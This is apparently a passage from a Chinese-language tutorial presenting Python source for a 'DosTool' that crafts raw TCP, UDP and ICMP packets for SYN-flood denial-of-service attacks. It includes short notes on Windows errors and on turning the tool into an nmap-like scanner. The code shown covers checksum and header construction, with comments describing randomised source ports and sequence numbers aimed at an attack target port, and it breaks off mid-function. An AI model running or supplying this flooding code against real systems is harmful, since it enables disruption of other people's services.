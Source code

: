 windows上运行有问题，syn运行报“OSError: [WinError 10022] 提供了一个无效的参数”，udp和icmp没拦截到数据包；但在在kali上运行都是没问题的。

另外，如果对此程序进行以下三项改造：去掉不断发送数据包的while、将源ip固定为本机ip并使用recvfrom函数接收返回数据包、对recvfrom到的数据包进行分析，那就成了一个类似nmap的系统扫描器。

## 4.1 代码

```python
import binascii
import random
import socket
import struct

class DosTool:
    # 此函数用于计算校验和函数，tcp/udp/icmp都使用此函数计算
    def calc_checksum(self, header):
        # 校验和，初始置0
        checksum = 0
        # 遍历头部，步长为2
        for i in range(0, len(header), 2):
            # 获取第一个字节值
            tmp = header[i]
            # 第一字节左移8位，腾出低8位给第二个字节，两者相加，就相当于取了一个word
            tmp = (tmp << 8) + header[i + 1]
            # 取出的word累加
            checksum += tmp
        # 一般都会溢出，将超过16字节的部份加到低位去
        checksum = (checksum & 0xffff) + (checksum >> 16)
        # 有可能再次溢出，所以尝试再次将超过16字节的部份加到低位去
        # 理论上应该不会再次溢出，所以有些文章这里用while感觉不是必须的
        checksum += (checksum >> 16)
        # 取反码
        checksum = ~checksum & 0xffff
        return checksum

    # 此函数用于生成tcp和udp的伪首部（伪首部参与校验和计算，但icmp不需要伪首部）
    def gen_psd_header(self,source_addr,dest_addr,protocol,header_and_data_length):
        # 源ip地址，32位
        psd_source_addr = socket.inet_aton(source_addr)
        # 目标ip地址，32位
        psd_dest_addr = socket.inet_aton(dest_addr)
        # 填充用的，置0,8位
        psd_mbz = 0
        # 协议，8位
        psd_ptcl = protocol
        # 传输层头部（不包括此首部）加其上层数据的长度
        psd_lenght = header_and_data_length
        # 生成伪首部
        psd_header = struct.pack("!4s4sBBH", psd_source_addr, psd_dest_addr, psd_mbz, psd_ptcl, psd_lenght)
        # 返回伪首部
        return psd_header

    # 此函数用于生成tcp头
    def gen_tcp_header(self,source_addr,dest_addr,source_port,dest_port):
        # tcp源端口，16位；在syn攻击中设为随机端口
        tcp_source_port = source_port
        # tcp目标端口，16位；在syn攻击中设为攻击目标端口
        tcp_dest_port = dest_port
        # 数据包序列号，32位；在syn攻击中使用随机生成
        tcp_seq = random.randint(0x10000000,0xffffffff)
        # 要确认已收到的数据包的序列号，32位；由于是syn包，所以ack为0
        tcp_ack = 0
        # tcp头部长度，4位；标准tcp头部长度为20个字节（20/4=5）
```